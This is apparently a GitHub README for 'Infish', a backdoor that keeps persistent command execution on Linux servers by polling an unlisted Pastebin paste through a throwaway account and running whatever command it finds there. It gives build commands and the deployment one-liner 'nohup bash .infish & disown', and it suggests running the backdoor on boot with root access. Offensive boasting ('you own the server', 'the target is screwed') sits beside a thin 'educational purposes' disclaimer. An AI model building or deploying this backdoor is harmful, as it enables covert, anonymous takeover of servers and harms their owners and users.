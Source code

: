 # Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **only a reboot** can save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage

There are two ways to build the final product.

- Using a raw paste url
- Using your pastebin dev api key, username, and password


## Using a raw paste url

This is when you have already created a paste by hand. Get the **raw paste url** and run the following command

```bash
bash infish-builder url pastebin.com/raw/abc123
```

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
>bash infish-builder key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully build infinite shell

```

A file called '.infish' is created.

Finally on the server, run

```bash
nohup bash .infish & disown
```

Now, you can edit your paste to any shell command and the server will run it.

That's it, you own the server. If you have root access, you can set the last command to run on boot.

If you're confused or have no idea what's going on on this page, then you should not be here. Go build cute websites and apps.




Stay Dangerous :)

